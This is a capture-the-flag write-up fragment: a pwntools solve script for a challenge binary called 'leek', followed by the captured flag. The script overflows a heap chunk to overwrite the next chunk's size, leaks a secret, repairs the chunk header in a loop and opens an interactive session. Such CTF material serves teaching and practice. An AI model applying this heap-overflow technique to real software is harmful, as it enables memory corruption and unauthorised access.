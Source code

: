 #### solve.py

```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break *0x4015e2
break *0x4016b5
heap
continue
'''.format(**locals())

# Binary filename
exe = './leek'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

for i in range(100):
    # Chunk is 16 bytes, then 8 bytes size of chunk, then the size of next chunk
    # Send 31 bytes of data is just enough to overwrite size of next chunk (secret data)
    io.sendlineafter(b'):', cyclic(31))
    io.recvline()

    # Now, when it prints out userinput_chunk, it prints the merged chunk (leak secret)
    secret = io.recvline()[0:32]

    # Send the secret
    io.sendafter(b'What\'s my secret?', secret)

    # Fix the chunk (we need to repair it for the next iteration)
    io.sendlineafter(b'Say what you want:', (b'\x00' * 24) + b'\x31' + (b'\x00' * 6))

# Got Shell?
io.interactive()
```

Flag: `actf{very_133k_of_y0u_777522a2c32b7dd6}`
